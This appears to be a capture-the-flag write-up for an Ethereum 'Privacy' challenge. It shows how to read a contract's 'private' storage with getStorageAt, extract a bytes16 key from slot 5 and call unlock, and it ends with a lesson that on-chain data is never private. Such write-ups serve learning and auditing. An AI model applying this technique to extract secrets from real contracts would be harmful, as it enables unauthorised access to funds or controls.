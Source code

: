 Solution
========

1. Derive the bytes16 ```key``` from ```data[2]```. To read the storage: ```await web3.eth.getStorageAt('YOUR_INSTANCE_ADDRESS', 5)```. This is how the storage looks like:

Storage layout:
slot    bytes                                                               stored variable(s)
0       0x0000000000000000000000000000000000000000000000000000000000000001  locked
1       0x0000000000000000000000000000000000000000000000000000000061e5ddb2  ID
2       0x00000000000000000000000000000000000000000000000000000000ddb2ff0a  arkwardness <--denomination <-- flattening
3       0xfc381dba5507f207c29bc57bb921fff2275bbd86167caa4e50b386b703b765f2 data[0]
4       0x8cf4dbd94294ec78879d3e7f8bead23400a6b52786db053ad82acb86741ec33b data[1]
5       0x0e0eab2c964dba651948990ba2e97c8463369ae3ff7efcc2a4965a6b3f6cb288 data[2]

Note that the storage could be optimized if locked, arkwardness, denomination and flattening were stored in a single slot.

2. Split the data stored in slot 5 (disregarding "0x") into two halves:
--> 0x0e0eab2c964dba651948990ba2e97c84, 0x63369ae3ff7efcc2a4965a6b3f6cb288
The first half is the one to unlock the contract.

3. Submit the data: ```await contract.unlock('0x0e0eab2c964dba651948990ba2e97c84')```
4. The contract is unlocked: ```await contract.locked()``` --> false

--> SOLVED

Conclusion
==========

Nothing in the ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Web3's getStorageAt(...) can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925).